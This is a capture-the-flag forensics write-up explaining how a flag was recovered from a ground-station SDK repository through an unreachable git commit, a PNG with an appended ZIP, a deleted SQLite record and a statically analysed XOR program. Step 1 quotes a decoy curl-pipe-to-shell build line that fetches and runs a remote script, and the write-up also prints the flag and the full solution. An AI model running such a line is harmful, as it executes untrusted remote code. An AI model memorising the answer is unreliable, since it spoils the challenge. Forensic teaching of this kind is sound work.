



Flag: CSCTF{p0lygl0t_r3qu13m_1d0a73980738}
Category: Forensics (git, PNG polyglot, SQLite carving)
Tools used: git (read-only, hooks disabled), Python 3 (struct, zipfile, sqlite3, hashlib), objdump, solve.py

Brief: A ground-station SDK repo shows altered build history and an odd dashboard asset, and I had to recover the concealed marker. Evidence: polyglot-requiem.zip (39,051 bytes, SHA-256 2a3aeda4fcc7fab03a268130a22b31b2194ed45f74981146ae765d78c97813c9) with README_FOR_RESPONDERS.md, manifest.sha256 and flight-telemetry-sdk/ (a git repo including .git). Nothing from the evidence was executed and no address found in it was contacted.

Steps:
1. Start point: read the git history
   - What I found: git log --all shows five reachable commits, all stamped 2026-10-15 11:53:46 +0100. git fsck --unreachable shows one more: commit c435f88 ("build: add telemetry opt-in check") plus its tree and a blob.
   - What I found: its diff only adds curl -s http://198.51.100.9/telemetry-opt-in.sh | sh to build.sh. That is the "altered build history" decoy, a pipe-to-shell I only read and never ran or fetched.
   - Thinking: the decoy is still useful, because an unreachable commit has its own timestamp. Its commit time is 1792061626 (%ct), which I noted for later.
   - Result: a decoy script and a timestamp to keep.

     

2. Pivot: the odd asset
   - What I found: assets/telemetry_icon.png is a tiny PNG (IHDR 13, tEXt 27, IDAT 18, IEND) but is 23,008 bytes. The tEXt chunk is Provenance = 0f18e37122ddbcca, and 22,894 bytes follow IEND.
   - What I found: those bytes start with PK 03 04, so a ZIP is appended to the PNG (a polyglot). It contains telemetry_cache.db (SQLite, 8192 bytes) and assetsignd (an ELF, 14,472 bytes).
   - Thinking: a PNG that is 23 KB with a tiny image and 22,894 bytes after IEND means data is hidden after the end marker.
   - Result: a SQLite file, an ELF, and a Provenance tag.

3. Pivot: the database
   - What I found: the live table build_secrets holds four obviously fake demo rows (aws_demo_key, grafana_token, npm_registry_token, pad_row_a), which are decoys.
   - What I did: searched the raw pages for strings and found ci_provenance_seal, which is not in any live row. It is a deleted cell whose bytes survived in the page: a 36-byte blob eec4bf28579c1bc91a4aeb48b2d0bf862bf8fe0571cfbd4deda3bdef0d177e7c9aa4c401 (record header 04 00 31 54 means NULL id, text length 18, blob length 36).
   - Thinking: a name that appears in the raw page but in no live row is a deleted record, and a 36-byte blob next to a flag of the right length looks like ciphertext.
   - Result: 36 bytes of ciphertext.

4. Decrypt: the program, statically only
   - What I did: disassembled assetsignd (usage: tag, epoch, infile, outfile). It computes key = SHA-256(reverse(tag_bytes) || epoch as 8-byte little-endian) and out[i] = in[i] XOR key[i & 0x1f], so the key repeats every 32 bytes.
   - What I found: with tag 0f18e37122ddbcca (from the PNG tEXt chunk) and epoch 1792061626 (the unreachable commit's timestamp), the first 32 bytes decode to CSCTF{p0lygl0t_r3qu13m_1d0a73980.
   - Dead end: my first attempt only decoded 32 bytes because I applied a plain 32-byte keystream once. Reading the XOR loop showed the & 0x1f wrap, which supplies the last 4 bytes: 738}.
   - What I did: the epoch had to be guessed. I tried values near the commit time and the exact commit timestamp produced readable text.
   - Result: CSCTF{p0lygl0t_r3qu13m_1d0a73980738}

     

     

Key insight: Three layers of innocent artifacts (an unreachable commit, a PNG with a ZIP behind IEND, a SQLite file with an unlinked cell) each hid the next piece, and the pieces only meet in the key derivation: provenance tag from the image, timestamp from git, ciphertext from a deleted row. Delete does not erase in SQLite or git, and the decoy curl-to-shell line is a reason to read the history, not to run it.

Reproduce: run python3 solve.py with the path to flight-telemetry-sdk as the argument. It makes read-only git calls with hooks disabled, then does the PNG, ZIP and SQLite parsing and the XOR in Python; the ELF is never run.
